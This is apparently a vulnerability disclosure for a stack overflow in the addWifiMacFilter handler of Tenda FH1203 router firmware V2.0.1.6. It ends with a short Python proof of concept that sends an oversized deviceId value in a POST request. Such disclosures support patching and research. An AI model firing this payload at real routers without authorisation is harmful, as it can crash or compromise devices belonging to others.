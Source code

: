 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v5` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v5` can trigger this security vulnerability.

![image-20240319224809289](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224809289.png)

![image-20240319224750955](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224750955.png)

![image-20240319224759788](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224759788.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": 1, "deviceId":payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012015657.png)